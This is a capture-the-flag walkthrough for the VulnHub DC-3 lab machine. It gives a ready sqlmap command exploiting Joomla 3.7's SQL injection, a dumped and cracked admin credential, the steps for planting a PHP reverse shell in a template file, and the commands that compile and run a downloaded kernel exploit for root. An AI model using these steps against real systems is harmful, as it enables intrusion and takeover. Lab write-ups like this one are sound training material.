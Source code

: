 ```yaml
---
layout: "post"
title: "DC 3 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-3, easy, joomla, CVE]
---
```

DC-3 was an easy machine. The website was hosted on `Joomla`. There was a `sqli exploit` that gives the admin password. By using an admin panel upload the shell. Priv sec using `CVE`.  

# Summery

- Portscan
- `Gobuster` to findout directories
- Search exploit
- Use `sqlmap` to get admin password
- Crack the password using `John`
- Login to admin panel and inject reverse shell
- Get reverse shell
- Exploit Kernel using CVE 
- Getting Root
- Flag

# Recon

## Portscan

```
Nmap scan report for 192.168.1.7
Host is up (0.00030s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home

```
## Joomla

When I browse the website, I don't find out anything interesting.
![mainpage](/assets/img/dc-3/mainpage.png)
So, I started the gobuster to find out directories.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.7 -x php,txt,html

/images (Status: 301)
/media (Status: 301)
/templates (Status: 301)
/modules (Status: 301)
/index.php (Status: 200)
/plugins (Status: 301)
/bin (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/README.txt (Status: 200)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/LICENSE.txt (Status: 200)
/layouts (Status: 301)
/administrator (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/cli (Status: 301)
/server-status (Status: 403)

```
# Sqli
The `README.txt` file revels the webserver is running Joomla and its version is 3.7.
![readme](/assets/img/dc-3/readme.png)
I search the exploit on searchsploit and get the exploit for Joomla. 
![searchsploit joomla](/assets/img/dc-3/searchsploit-joomla.png)

The exploit `php/webapps/42033.txt` tells that version is vulnerable to sqli.
So as per exploit I run sqlmap and get admin hash.

```bash
sqlmap -u "http://192.168.1.7/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump 
```

>admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu

I use `John` to crack the password.
![john](/assets/img/dc-3/john.png)

>admin:snoopy

# Getting reverse shell.
Now I have username and password, I use those to log in to `Joomla`. By using admin panel I can edit the template files. So I paste the source code of php-reverse-shell in error.php of beez3 template and
get a reverse shell.
![shell](/assets/img/dc-3/shell.png)
![nc](/assets/img/dc-3/nc.png)

# Getting Root

I upload [linpeas](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) on server and run it. 
![ubuntu](/assets/img/dc-3/ubuntu.png)
The exploit is available on `searchsploit` for *ubuntu 16.04*
![exploit](/assets/img/dc-3/searchsploit-exploit.png)

I download the [exploit](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip) from net and transfer to server. By executing the exploit I get root access.
```bash
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
./doubleput
```
![1](/assets/img/dc-3/1.png)
![2](/assets/img/dc-3/2.png)

# The Flag
![root](/assets/img/dc-3/root.png)


 

